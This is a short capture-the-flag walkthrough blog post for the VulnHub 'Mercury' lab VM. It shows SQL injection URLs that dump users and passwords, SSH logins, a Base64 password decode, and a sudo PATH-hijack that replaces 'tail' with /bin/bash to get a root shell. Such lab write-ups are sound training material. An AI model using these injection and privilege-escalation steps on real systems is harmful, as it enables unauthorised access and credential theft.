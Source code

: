 ```yaml
---
layout: post
title:  "Case Study : Mercury / VulnHub"
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/the-planets-mercury,544/`

- Difficulty : Medium

## SQL injection
## Step 1
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT username from users--/
('john',), ('laura',), ('sam',), ('webmaster',))
{% endhighlight %}


## Step 2
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT password from users--/
 ('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',))
{% endhighlight %}

## SSH webmaster, find encoded passwords
{% highlight sh %}
  cd mecury_proj/
  ls
  cat notes.txt
{% endhighlight %}

## Base64 decode the password
{% highlight sh %}
┌─[alienum@parrot]─[~/Desktop]
└──╼ $echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
{% endhighlight %}

## SSH linuxmaster

- linuxmaster:mercurymeandiameteris4880km

{% highlight sh %}
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster:
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh

linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
linuxmaster@mercury:~$ echo "/bin/bash" > tail
linuxmaster@mercury:~$ chmod 777 tail
linuxmaster@mercury:~$ export PATH=.:$PATH
linuxmaster@mercury:~$ sudo PATH=$PATH /usr/bin/check_syslog.sh
root@mercury:/home/linuxmaster#
{% endhighlight %}
